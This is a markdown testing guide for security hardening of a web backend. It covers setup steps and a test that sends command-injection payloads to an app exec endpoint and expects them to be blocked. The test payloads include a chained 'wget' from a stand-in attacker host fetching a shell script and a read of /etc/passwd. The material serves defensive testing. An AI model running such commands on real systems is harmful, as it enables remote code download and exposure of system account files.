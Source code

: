 # Phase 1 - Security Hardening Testing Guide

## 🎯 Objective
Verify that all P0 security fixes are working correctly before proceeding to Phase 2.

---

## ✅ Pre-Testing Setup

### 1. Install Dependencies
```bash
cd /Users/fab/GitHub/proximity/backend
pip install -r requirements.txt
```

### 2. Run Setup Script
```bash
./scripts/phase1_setup.sh
```

Follow prompts to create admin user.

### 3. Start Server
```bash
uvicorn main:app --reload --port 8765
```

---

## 🧪 Test Suite

### TEST 1: Command Injection Fix ✅

**Objective**: Verify dangerous commands are blocked

```bash
# This should FAIL (command contains dangerous patterns)
curl -X POST http://localhost:8765/api/v1/apps/nginx-nginx-01/exec \
  -H 'Content-Type: application/json' \
  -H 'Authorization: Bearer <your-token>' \
  -d '{"command": "ls && wget http://evil.com/shell.sh"}'

# Expected: 400 Bad Request - "Command contains dangerous pattern"
```

```bash
# This should ALSO FAIL
curl -X POST http://localhost:8765/api/v1/apps/nginx-nginx-01/exec \
  -H 'Content-Type: application/json' \
  -H 'Authorization: Bearer <your-token>' \
  -d '{"command": "cat /etc/passwd | grep root"}'

# Expected: 400 Bad Request - "Command contains dangerous pattern"
```
